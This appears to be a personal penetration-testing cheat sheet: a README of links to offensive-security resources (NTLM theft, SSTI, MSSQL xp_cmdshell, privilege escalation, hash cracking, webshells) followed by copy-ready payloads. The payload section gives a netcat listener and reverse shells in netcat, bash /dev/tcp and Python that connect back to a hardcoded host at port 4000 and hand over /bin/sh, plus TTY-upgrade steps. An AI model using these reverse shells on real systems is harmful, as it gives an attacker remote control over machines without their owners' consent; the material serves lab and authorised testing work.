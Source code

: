 # Resources
A collection of links and payloads I stored for quick access
# LINKS:
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
-  [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
-  [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
-  [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
-  [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
-  [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
-  [**Reverse Shell Generator**](https://www.revshells.com/)
-  [**GTFO bins**](https://gtfobins.github.io/)
-  [**Webshells**](https://github.com/BlackArch/webshells)

# Payloads:
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash 
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
